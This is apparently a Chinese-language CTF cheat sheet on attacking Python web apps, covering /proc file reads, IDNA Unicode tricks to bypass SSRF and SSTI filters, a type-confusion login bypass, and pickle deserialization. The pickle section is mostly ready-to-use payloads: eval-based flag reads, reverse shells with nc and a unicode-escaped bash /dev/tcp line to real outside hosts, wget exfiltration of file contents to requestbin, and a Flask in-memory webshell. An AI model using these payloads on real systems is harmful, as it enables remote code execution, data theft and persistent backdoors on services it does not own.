

程序目录可能：/app/appy.py
环境变量：/proc/self/environ 里面可能有工作目录PWD
程序启动命令：/proc/self/cmdline

## **python打开文件但是没有关闭**
python打开文件但是没有关闭，任然可以读取文件内容。
```
SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)
```
可以通过/proc/self/fd/[num]访问对应文件（此处[num]代表一个未知的数值，需要从0开始遍历找出）
如在/proc/self/fd/3找到。
<https://blog.csdn.net/cjdgg/article/details/119860355?spm=1001.2014.3001.5502>

^
## **url中的unicode漏洞**
```
℆这个字符在经过
for h in host.split('.'):
      newhost.append(h.encode('idna').decode('utf-8'))
处理后变成c/u

以及ℂ变成c等

︷︸变成{} 可以用于ssti注入
```
ssti绕过替换
```
"""
{ -> ︷/﹛
} -> ︸/﹜
' -> ＇
, -> ，
" -> ＂
"""
//此时的str即你要输入的payload
str = '''{{a.__init__.__globals__.__builtins__.eval("__import__('os').popen('ls').read()")}}''' # 原字符串
# 如果需要替换replace(被替换的字符,替换后的字符)
str = str.replace('{', '︷')
str = str.replace('}', '︸')
str = str.replace('\'', '＇')
str = str.replace('\"', '＂')

print(str)
```

于是传入url=file://suctf.cc/etc/passwd
可以变成传入url=file://suℂtf.cc/etc/passwd绕过过滤，最终又变回来
>非预期这个也可绕过：url=file:////suctf.cc/etc/passwd
```
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"


    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host


    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()   #http读网站，file读本地文件
    else:
        return "我扌 your problem? 333"
```

^
## **字符绕过**
如果判断是：
if "scan" in self.action:
则action中含有scan字符即可通过。
一般是两种字符按顺序拼接一起可以绕过多个判断，如xx+readscan ，xxread+scan

^
## **请求参数**
flask：
param = urllib.unquote(request.args.get("param", ""))
获取param参数值，如果没有默认为第二个空。

^
## **读文件**
tmpfile = open("./%s" % self.sandbox, 'w')

^
get请求读远程网址中文件前50字节，可能造成ssrf：
urllib.urlopen(param).read()[:50]
使用urllib.urlopen(param) 包含文件，可以直接填写文件路径`./flag.txt`，也可以使用伪协议。

本地文件读取协议:
fie://
local-file://绝对路径 或 local-file://flag.txt
gopher://


## **传参类型不同，值同**
```
if params.get("username") == params.get("password"):
    self.send_response(403)
    self.end_headers()
    self.wfile.write(b"YOU CANNOT LOGIN WITH SAME USERNAME AND PASSWORD!")
    print("same")
    return
hashed = gethash(params.get("username"), params.get("password"))
for k, v in hashed_users.items():
```
一个字符串类型，一个数值即可
```
{"username":"1","password":1}
```


^
^
## **python反序列化**
python中反序列化的库主要有两个，`pickle`和`cPickle`，这俩除了运行效率上有区别外，其他没啥区别
和php一样不光能序列化字符串，也可以序列化数组，字典，类


`pickle`的常用方法有
```
import pickle

a_list = ['a','b','c']

# pickle构造出的字符串，有很多个版本。在dumps或loads时，可以用Protocol参数指定协议版本，例如指定为0号版本
# 目前这些协议有0,2,3,4号版本，默认为3号版本。这所有版本中，0号版本是人类最可读的；
# 之后的版本加入了一大堆不可打印字符，不过这些新加的东西都只是为了优化，本质上没有太大的改动。
# 一个好消息是，pickle协议是向前兼容的。0号版本的字符串可以直接交给pickle.loads()，不用担心引发什么意外。
# pickle.dumps将对象序列化为字符串
# pickle.dump将序列化后的字符串存储为文件
print(pickle.dumps(a_list,protocol=0))

pickle.loads() #对象反序列化
pickle.load() #对象反序列化，从文件中读取数据
```


ctf中大多数常见的pickle反序列化，利用方法大都是`__reduce__`，实现RCE。
`__reduce__`这个魔术方法，这个魔术方法简单的来说可php的`__wakeup`差不多,就是在被序列化的时候告诉系统如何运行，
他的返回值第一个参数是函数名，第二个参数是一个tuple，为第一个函数的参数。
稍微有点区别在于我们能够控制里面的内容，而php的`__wakeup`则是目标环境写死的，说明python反序列化更加自由一些


```
# -*- coding: utf-8 -*-
# python2代码
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print(a) 
# 将生成的序列化串，传入反序列化进行RCE文件读取。
```

```
# Python 3代码
import pickle
import urllib.parse

class payload:
    def __reduce__(self):
        return (eval, ("open('flag.txt', 'r').read()",))

# Python 3中pickle.dumps()返回的是bytes类型，不需要urllib.quote进行编码
a = pickle.dumps(payload())

# Python 3中urllib.quote函数在urllib.parse模块中
a_quoted = urllib.parse.quote(a)  # 这里对bytes类型进行编码可能不是必要的
print(a_quoted)
# 将生成的序列化串，传入反序列化进行RCE文件读取。
```

反弹shell
```
import pickle
import base64

class rce():
    def __reduce__(self):
        return (eval,("__import__('os').popen('nc ip port -e /bin/sh').read()"))
    
c=rce()
c=pickle.dumps(c)
print(base64.b64encode(c))
```

其他利用
```
return (os.popen,('nc 1.92.88.247 2333 -e /bin/sh',))#此处需要nc
return (os.popen,('wget http://ip:port/`cat f*`'))
return (os.system, ('wget http://requestbin.net/r/duwbu270?a=`cat fla*`',))
```


^
#### **有过滤**
```
import pickle
import pickletools
import base64

# 有过滤，不让生成的序列化串有i等字符

opcode=b'''(S"key"
S"val"
dS"exp"
(cos
system
V\u0062\u0061\u0073\u0068\u0020\u002D\u0063\u0020\u0027\u0062\u0061\u0073\u0068\u0020\u002D\u0069\u0020\u003E\u0026\u0020\u002F\u0064\u0065\u0076\u002F\u0074\u0063\u0070\u002F\u006E\u0067\u0072\u006F\u006B\u002E\u0078\u0069\u0061\u006F\u006D\u0069\u0071\u0069\u0075\u0031\u0032\u0033\u002E\u0074\u006F\u0070\u002F\u0031\u0037\u0031\u0037\u0032\u0020\u0030\u003E\u0026\u0031\u0027
os.'''
pickletools.dis(opcode)
print(base64.b64encode(opcode)) #对反弹shell进行unicode即可。
```

参考：<https://blog.csdn.net/your_friends/article/details/126979899>


^
#### **传python内存马**
不回显时可用
```
import pickle
import base64
class test():
    def __reduce__(self):
        return (eval,("__import__(\"sys\").modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen(request.args.get('cmd')).read())",))

a = test()
b = pickle.dumps(a)
print(base64.b64encode(b))
```
```
import pickle
import base64

class Pet:
    def __reduce__(self):
        cmd_injection = "__import__('os').popen(request.args.get('cmd')).read()"
        return eval, ("__import__('sys').modules['__main__'].__dict__['app']"
                      ".before_request_funcs.setdefault(None, []).append(lambda :" + cmd_injection + ")",)

# 创建类实例并序列化为pickle，再进行base64编码
a = Pet()
b = pickle.dumps(a)
print(base64.b64encode(b).decode())
```